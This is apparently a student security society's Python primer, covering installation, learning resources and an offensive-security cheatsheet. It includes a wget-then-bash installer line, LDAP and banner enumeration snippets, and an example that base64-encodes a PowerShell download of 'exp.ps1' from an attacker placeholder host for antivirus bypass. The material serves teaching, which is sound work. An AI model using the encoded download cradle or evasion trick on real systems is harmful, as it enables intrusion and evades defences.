 # Intro

Python is a powerful and versatile language with a relatively easy to learn syntax.

We may use Python in some of our sessions for a few purposes:

- running pre-written exploits from exploitDB
- writing custom exploits
- simple automation tasks
- complex automation examples such as web scraping
- using nice builtins, such as text encoding options, when building shellcode

# Installation

You can download Python for pretty much any Operating System [here](https://www.python.org/downloads/).

Alternatively, you can use Seb's instructions for installing Python along with Selenium, a useful browser automation tool. They're detailed below.

## Linux Setup

For linux setup, you can type the following command below to instantly install python, pip and selenium (in the browser of your choice [Chrome or Linux]):

~~~bash
wget https://shefesh.com/session_scripts/SeleniumLinux.bash; bash SeleniumLinux.bash
~~~

## Windows Setup

Download python 3 and pip from the [Microsoft Store](https://www.microsoft.com/store/productId/9PJPW5LDXLZ5). If you already have it installed from the Python website you can skip this step.

### Selenium Installation

In Command Prompt or Powershell, type:

~~~cmd
pip3 install selenium
~~~

## MacOS Installation

MacOS users can follow any of the following guides:

- [MacOS Python Guide](https://docs.python.org/3/using/mac.html)
- [Python Download Page](https://www.python.org/downloads/macos/)
- [Pip Installation Video for Python (If not installed)](https://www.youtube.com/watch?v=yBdZZGPpYxg)
- [MacOS Selenium Installation Video](https://www.youtube.com/watch?v=7R5n0sNSza8)

## Selenium Driver Download
Linux users won't have to follow this step for Chrome and Firefox unless you have another browser in mind for the session.
When downloading, CHECK YOUR BROWSER VERSION as it needs to compatible and run the version of the webbrowser you currently have on your computer.

- [Firefox Driver](https://github.com/mozilla/geckodriver/releases/tag/v0.30.0)
- [Chrome Driver](https://chromedriver.chromium.org/downloads)
- [Microsoft Edge Driver](https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/)
- [Internet Explorer Driver](https://www.selenium.dev/downloads)
- Safari Driver is built in to Safari
- [Opera Driver](https://github.com/operasoftware/operachromiumdriver/releases)

# Learning Python

While we would like to teach you everything about Python in one short lesson, that's not really possible. It takes a while to learn, but luckily there are a few resources out there that are much better than us at teaching it.

The best way to learn is, often, to build something from scratch (coming to our Automation session, for example, will teach you how to build a web scraper). But despite how easy Python is to pick up, it's useful to know some of the basics beforehand.

Here are a few courses. There's no requirement to do these, but you may find them useful if you're interested in learning it:

- Python themselves have a [Beginner's Guide](https://wiki.python.org/moin/BeginnersGuide) and a [Getting Started](https://www.python.org/about/gettingstarted/) tutorial
- This course was built by a former SESH committee member, Brooks Rady. Start with the 'Basics of Programming in Python' lesson: [https://sheffield-bionics.gitlab.io/bionics-general/](https://sheffield-bionics.gitlab.io/bionics-general/)
- codecademy has a course for the most recent Python version: [https://www.codecademy.com/learn/learn-python-3](https://www.codecademy.com/learn/learn-python-3)

You can also find the Python Documentation [here](https://docs.python.org/3/), which is a well-written reference guide if you have a specific question (but not a great way to learn the language).

# Cheatsheet

Here are some useful commands from Python that we end up using frequently.

Launch an interactive Python shell (in any CLI):

~~~bash
$ python
~~~

> Note: some linux distributions, including Kali, have Python 2 installed for backwards compatibility - to use Python 3, you must type python3 in the command line

Within the shell you can import a module or local file with `import`:

~~~bash
┌──(kali㉿kali)-[~]
└─$ python3                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> import localscript.py
~~~

Run a method from a native or imported class, such as `os.system()` or `os.setuid()`:

~~~bash
>>> import os
>>> os.system("id")
uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),143(kaboxer)
0
>>> os.setuid(0)
>>> os.system("id")
uid=0(root) gid=0(root) groups=0(root),20(dialout),120(wireshark),143(kaboxer)
0
~~~

Send a HTTP request:

~~~bash
>>> import requests
>>> r = requests.get("http://example.com")
>>> print(r)
<Response [200]>
~~~

Or raw socket data, decoding the response in UTF-8 format:

~~~bash
>>> import socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> connect = s.connect(('IP',25))
>>> banner = s.recv(1024)
>>> print(banner.decode("utf-8"))
~~~

Create and sign a JWT token:

~~~bash
>>> import jwt
>>> from datetime import datetime, timedelta
>>> key = "verysecretkeylol"
>>> encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "key": "value"}, key, algorithm="HS256")
>>> print(encoded)
~~~

Calculate the difference between two hex values (useful in binary exploitation):

~~~bash
>>> 0x01611C8C - 0x016119FC
656
~~~

Quickly enumerate an Active Directory server with LDAP:

~~~bash
>>> import ldap3
>>> server = ldap3.Server('IP',get_info = ldap3.ALL, port = 389, use_ssl = False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
~~~

Encode some text in base64 for a powershell encoded command (useful for basic antivirus bypass):

~~~bash
>>> import base64
>>> command = "Invoke-WebRequest http://YOUR_IP/exp.ps1 -o exp.ps1"
>>> print(base64.b64encode(command.encode("utf-16le")).decode())
SQBuAH...cwAxAA==
~~~

Test a regex:

~~~bash
>>> import re
>>> re.compile(r'\[\[(.*)\]\]')
re.compile('\\[\\[(.*)\\]\\]')
>>> p = re.compile(r'\[\[(.*)\]\]')
>>> string = "[[capture this]]"
>>> m = re.match(p, string)
>>> print(m.group(1))
capture this
~~~

As you can see, there's plenty it can do! The interactive Python shell is especially useful for testing small changes to scripts without having to modify the file itself.